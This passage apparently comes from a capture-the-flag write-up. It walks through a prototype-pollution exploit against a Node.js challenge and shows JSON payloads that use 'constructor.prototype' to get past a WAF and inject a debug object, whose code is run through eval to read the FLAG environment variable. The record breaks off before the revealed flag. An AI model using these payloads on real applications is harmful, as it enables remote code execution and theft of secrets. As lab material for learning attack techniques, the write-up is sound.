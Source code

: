 Fortunately, we can bypass this restriction through another method by accessing the prototype through the object's constructor:

```json
{
    "constructor": {
        "prototype": "value"
  }
}
```

Now that we have a way to bypass the WAF, we just need to add in the `debug` property as well as its child properties as follows:

```json
{
    "constructor": {
        "prototype": {
            "debug": {
                "active": true,
                "code": "process.env.FLAG"
            }
        }
    }
}
```

 > `eval("process.env.FLAG")` will return us the FLAG environment variable.

Combine this payload with the one from Goal #1 and we have our final payload:

```json
{
    "constructor": {
        "prototype": {
            "debug": {
                "active": true,
                "code": "process.env.FLAG"
            }
        }
    },
    "random": {
        "toString": {}
    }
}
```

If we input the payload, the flag is revealed:
